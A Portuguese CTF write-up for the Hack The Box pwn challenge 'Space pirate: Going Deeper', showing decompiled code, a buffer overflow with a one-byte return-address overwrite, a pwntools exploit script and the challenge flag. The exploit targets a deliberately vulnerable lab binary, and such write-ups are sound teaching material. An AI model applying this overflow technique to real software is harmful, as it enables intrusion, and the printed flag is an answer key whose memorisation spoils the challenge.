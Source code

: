 # WriteUp: Space pirate: Going Deeper

## Descrição do Desafio:
**Autor**: [w3th4nds](https://app.hackthebox.com/users/70668) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/Space%2520pirate%253A%2520Going%2520Deeper) \
**Categoria**: Pwn \
**Dificuldade**: Muito fácil \
**Data**: 2022 \
**Descrição**:
> We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

## Passo a Passo da Solução
### 1. Análise do executável fornecido
Este desafio não fornece o código-fonte, dessa forma, a análise deve ser feita diretamente pelo executável, analisando sua execução e assembly.

Rodando o executável temos uma leve noção do que está acontecendo. Nele é imprimido uma interface que nos mostra o histórico de comandos, e em seguida mostra 3 escolhas:

1. Desabilitar mecanismos.
2. Entrar.
3. Sair.

Após selecionar uma das opções, excluindo a terceira, podemos inserir algum texto. Mas em ambos os casos a saída é:

```bash
[-] Authentication failed!

[!] For security reasons, you are logged out..
```

Neste ponto, sobra analisar o assembly, no caso pelo **Ghidra**, para entender mais sobre o que está acontecendo.

Logo de início já podemos identificar a função `main()`, que define algumas variáveis de execução chamando a função `setup()`, e depois imprime a interface chamando a função `banner()`. Por fim é chamada a função `admin_panel(1,2,3)` que realiza toda a lógica da entrada do usuário. 

{% code title="main" overflow="wrap" lineNumbers="true" %}
```c
undefined8 main(void)

{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}

```
{% endcode %}

Analisando a função `admin_panel()`, vemos muitas coisas interessantes:
- Não importa se foi selecionado 1 ou 2 no início, o código que continua é o mesmo nas duas opções. A terceira opção encerra a execução.
- No *input* que fazemos após inserir a opção, é possível realizar um `buffer overflow` de 17 caracteres.
- A **flag** é impressa caso os parâmetros sejam iguais a `0xdeadbeef`, `0x1337c0de`, e `0x1337beef`. E o *input* contenha `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft`.

{% code title="admin_panel" overflow="wrap" lineNumbers="true" %}
```c
void admin_panel(long param_1,long param_2,long param_3)

{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
                    /* Buffer Overflow */
  read(0,local_38,57);
  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,52);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}

```
{% endcode %}

O que este código deixa a entender é que devemos causar um estouro no *buffer*, colocando o valor `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` nele, e depois sobrescrevendo o valor dos parâmetros passados. Porém, este executável está na arquitetura **64-bits**, então os parâmetros são passados por meio dos registradores, e 17 caracteres a mais não seria o suficiente para escrever a *string* e sobrescrever os parâmetros.

{% hint style="info" %}
**Nota:** É possível observar que mesmo sendo arquitetura **64-bits**, os parâmetros são colocados na pilha no início do assembly da função. Porém, eles são colocados antes do *buffer*, dessa forma é impossível sobrescrever eles estourando o *buffer*.
{% endhint %}

### 2. Solução
Após descobrir que não era possível sobrescrever os parâmetros, eu estourei o *buffer* com os 57 caracteres sendo "A", para ver se algo interessante acontecia. Nisso, eu reparei algo interessante pelo **pwndbg**, o endereço de retorno mudou um pouco.

Antes do *input*:
```bash
 ► 0         0x400aba admin_panel+209
   1         0x400b94 main+77
```
Após o *input*:
```bash
 ► 0         0x400abf admin_panel+214
   1         0x400b41 admin_panel+344
```

O endereço de retorno é sobrescrevido por 1 *byte*, como podemos ver antes era `0x400b94` e depois passou a ser `0x400b41`, sendo que `0x41` é o hexadecimal para o caractere "A".

Dessa forma, a solução é sobrescrever esse 1 *byte* de forma que a função `admin_panel()` retorne para a instrução dela que imprime a **flag**. Isso só é possível caso essa instrução comece com `0x400b` e por sorte ela começa.

{% code title="assembly" overflow="wrap" lineNumbers="true" %}
```asm
        00400afa 48 8d 35        LEA        RSI,[DAT_00400c38]                               = 1Bh
                 37 01 00 00
        00400b01 48 8d 3d        LEA        RDI,[s_%s[+]_Welcome_admin!_The_secret_m_00401   = "\n%s[+] Welcome admin! The se
                 88 0a 00 00
        00400b08 b8 00 00        MOV        EAX,0x0
                 00 00
        00400b0d e8 fe fb        CALL       <EXTERNAL>::printf                               int printf(char * __format, ...)
                 ff ff
        00400b12 48 8d 3d        LEA        RDI,[s_cat_flag*_004015be]                       = "cat flag*"
                 a5 0a 00 00
        00400b19 e8 e2 fb        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff

```
{% endcode %}

Então, a solução nada mais é do que inserir 56 caracteres quaisquers, e depois inserir o hexadecimal `0x12`.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./sp_going_deeper")
p = remote("ip", porta)
#p = process()

p.sendlineafter(b">> ", b"1")

payload = b"A" * 56 + chr(0x12).encode()
p.sendlineafter(b"Input: ", payload)

print(p.recvall().decode())
```

### Flag
`HTB{d1g_1n51d3..u_Cry_cry_cry}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
